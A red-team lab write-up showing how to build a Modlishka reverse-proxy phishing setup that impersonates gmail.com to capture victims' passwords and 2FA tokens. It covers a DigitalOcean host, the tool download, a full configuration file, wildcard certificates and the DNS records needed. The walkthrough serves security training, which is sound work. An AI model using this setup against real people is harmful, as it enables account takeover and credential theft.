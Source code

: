 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim \(MITM\) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](../../.gitbook/assets/annotation-2019-06-25-214151.png)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](../../.gitbook/assets/annotation-2019-06-25-214300.png)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](../../.gitbook/assets/annotation-2019-06-25-214425.png)

{% code-tabs %}
{% code-tabs-item title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](../../.gitbook/assets/annotation-2019-06-25-214749.png)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](../../.gitbook/assets/annotation-2019-06-25-214849.png)

Once the DNS TXT record is created, continue with the certificate generation:

![](../../.gitbook/assets/annotation-2019-06-25-214924.png)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](../../.gitbook/assets/annotation-2019-06-25-215107.png)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](../../.gitbook/assets/annotation-2019-06-25-215155.png)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](../../.gitbook/assets/annotation-2019-06-25-215308.png)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](../../.gitbook/assets/annotation-2019-06-25-215702.png)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with the contents of gmail.com - indicating that Modlishka works and the MITM is working. Again, it is important to call it out - we did not create any compies or templates of the targeted website - the victim is actually browsing gmail it's just that it is being served through Modlishka, while the traffic is getting inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}

